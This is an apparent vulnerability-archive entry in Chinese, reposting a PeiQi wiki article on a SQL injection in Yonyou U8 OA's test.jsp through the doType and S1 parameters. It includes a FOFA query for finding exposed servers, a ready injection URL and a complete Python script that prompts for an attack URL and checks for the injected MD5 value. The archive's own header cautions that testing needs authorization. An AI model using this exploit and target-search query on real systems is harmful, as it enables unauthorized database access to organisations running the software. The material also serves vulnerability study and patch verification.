


# 用友U8 OA test.jsp doType/S1 SQL 注入

## 条目说明

- 对象与具体问题：用友U8 OA；test.jsp doType/S1 SQLi
- 版本、配置及部署条件：未列具体版本
- 认证与权限前提：无Cookie示例，未核
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 与致远test.jsp共代码仅源述需关联不无条件合并产品
- 脚本MD5(1)指纹正确；title提示ip.txt而实际只接受单URL，与说明不一致
- 可读完整PoC但无源码/修复，去营销；与134候选同源

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/-Qwin3YAAl5ztT1pNgN_tg)


****

**一****：漏洞描述🐑**

**用友 U8 OA test.jsp 文件存在 SQL 注入漏洞，由于与致远 OA 使用相同的文件，于是存在了同样的漏洞**

**二:  漏洞影响🐇**

**用友 U8 OA**

**三:  漏洞复现🐋**

```
FOFA  "用友U8-OA"
```

**可参考 文章** 致远 OA A6 test.jsp SQL 注入漏洞

**登录页面如下**


**POC**

```
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```



**利用方法与致远 OA 的 SQL 注入类似**

 ****四:  漏洞 POC🦉****

```
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle   : 用友 U8 OA test.jsp SQL注入漏洞                           \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20md5(1))"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "c4ca4238a0b923820dcc509a6f75849b" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \n[o] 响应地址: {} \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```



 ****五:  关于文库🦉****

 **在线文库：**

**http://wiki.peiqi.tech**

 **Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**


最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**


**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
